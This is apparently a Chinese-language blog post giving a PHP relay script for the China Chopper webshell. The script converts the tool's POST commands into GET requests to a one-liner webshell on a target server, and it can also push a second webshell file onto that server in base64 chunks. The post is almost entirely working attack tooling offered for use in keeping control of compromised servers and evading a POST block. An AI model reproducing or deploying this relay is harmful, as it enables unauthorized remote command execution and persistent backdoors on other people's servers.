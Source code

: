 ```yaml
---
title: "PHP 菜刀中转脚本"
date: 2018-01-31T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



有的服务器 管理员脑抽把 POST 方法禁止

而菜刀是利用 POST 来发送执行代码的

只要把 POST 转换成 GET 就可以正常链接了

<!--more-->

```
<?php
ini_set('max_execution_time', '100'); // 超时时间

$url = 'http://127.0.0.1/cmd.php'; // 一句话地址
$pass = 'cmd'; // 密码
$data = $_POST['cmd']; // 中转密码

echo file_get_contents($url.'?'.$pass.'='.$data);

if(isset($_GET['upload'])){
	$f = fopen('darkshell.php','r'); // 上传文件
	while (!feof($f)){
		$content = base64_encode(fgetc($f));
		$exec = "file_put_contents('dama.php',base64_decode('$content'),FILE_APPEND);";
		file_get_contents($url.'?'.$pass.'='.$exec);
	}
	echo 'File uploaded successfully';
}
?>